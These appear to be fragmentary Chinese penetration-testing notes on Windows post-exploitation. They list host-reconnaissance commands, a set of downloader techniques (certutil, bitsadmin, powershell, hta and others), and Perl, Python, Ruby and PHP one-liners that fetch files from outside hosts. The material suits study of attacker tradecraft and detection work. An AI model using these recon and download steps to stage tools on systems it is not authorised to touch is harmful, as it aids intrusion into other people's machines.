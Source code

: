 js和certutil,bitsadmin,vbs



识别英文操作系统名称及版本   ```systeminfo | findstr /B /C:"OS Name" /C:"OS Version"```

别中文操作系统名称及版本     ```systeminfo | findstr /B /C:"OS 名称" /C:"OS 版本"``` 

                            ```
                            OS 名称:          Microsoft Windows 10 旗舰版
                            OS 版本:          10.0.14393 N/A Build 14393
                            ```

识别系统体系结构            ```echo %PROCESSOR_ARCHITECTURE% ```

                           ```AMD64```
                           
查看某特定用户信息          ```net user XXX```

查看路由表信息route print

查看ARP缓存信息 arp -A 

查看防火墙规则：

``` netstat -ano ```
``` netsh firewall show config ```
```netsh firewall show state ```

具体参考[Windows内网渗透提权的几个实用命令](https://www.freebuf.com/articles/system/114731.html)

https://www.jianshu.com/p/502441bcebe0   15种下载

win7测试下载https会报错，提醒我丢失libeay_32.dll，libeay32.dll是OpenSSL所用动态链接库

```perl -MLWP::Simple -e "getstore ('http://www.163.com/','163.html')"```

测试失败 ```perl -MLWP::Simple -e "getstore ('https://raw.githubusercontent.com/3gstudent/test/master/version.txt','163.txt')"```

```perl -e "print 'Hello World \n'"```   

downloader常用方法如下：

certUtil
powershell
csc
vbs
JScript
hta
bitsadmin
wget
debug
ftp
ftfp


python cmd 下载文件

```python -c "import urllib2;u=urllib2.urlopen('https://raw.githubusercontent.com/3gstudent/test/master/version.txt');localfile=open('a.txt','w');localfile.write(u.read());localfile.close();"```


httpdownload.rb 可用ruby 下载 http链接的文件，https暂不知道下载方法  ```$ruby httpdownload.rb ```


php 下载代码有问题
```
<?
$data = @file("http://txt.bookdown.net/home/down/txt/id/625");
$f = fopen("1.txt", "w");
fwrite($f, $data[0]);
fclose($f);
?>
```
